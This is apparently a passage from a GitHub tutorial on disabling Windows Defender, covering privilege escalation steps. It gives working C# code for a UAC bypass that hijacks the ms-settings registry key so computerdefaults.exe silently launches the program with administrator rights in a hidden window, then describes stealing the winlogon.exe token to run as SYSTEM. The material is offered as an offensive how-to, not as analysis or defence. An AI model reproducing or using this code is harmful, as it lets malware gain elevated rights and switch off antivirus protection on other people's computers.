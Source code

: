 <h4 align="center">CHAPTER 2: RAISING THE RIGHTS</h4>
<p align="center">

### There are a lot of UAC bypass implementations, you can choose any one that suits you. In this article, I will use the most common method through registry editing.

Its essence is that the system application computerdefaults.exe , at startup, accesses regedit , in the path "Software\Classes\ms-settings\shell\open\command". Our task is to edit this item on your application.
Now at startup computerdefaults.exe our application opens, but with administrator rights. Edit the registry and add the application launch via cmd.

```
string execPath = Assembly.GetEntryAssembly().Location;

            Registry.CurrentUser.CreateSubKey("Software\\Classes\\ms-settings\\shell\\open\\command");
            Registry.CurrentUser.CreateSubKey("Software\\Classes\\ms-settings\\shell\\open\\command").SetValue("", execPath, RegistryValueKind.String);
            Registry.CurrentUser.CreateSubKey("Software\\Classes\\ms-settings\\shell\\open\\command").SetValue("DelegateExecute", 0, RegistryValueKind.DWord);
            Registry.CurrentUser.Close();


            Process process = new System.Diagnostics.Process();
            ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = @"/C computerdefaults.exe";
            process.StartInfo = startInfo;
            process.Start();
```

Actually, at this stage we have already started our process on behalf of the administrator, without any warnings or icons on the icon.

<h4 align="center">CHAPTER 2.1: I AM THE SYSTEM</h4>
<p align="center">

As already mentioned, the Windows Defender process is running on behalf of NT AUTHORITY\SYSTEM. ​

We, being a normal process, cannot edit a process running on behalf of the system.​
​
We need a raise!

We will crank it through a duplicate token winlogon.exe​
Pay attention to the picture, here is the full algorithm of action.

If you explain what happened in a nutshell:
Windows has a process like winlogon, it runs with the system and is responsible for user authorization. We will duplicate the token of this process and run our own program with the stolen token.

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Disable-Windows-Defender-/blob/main/imge/2.jpeg" 
<p align="center">
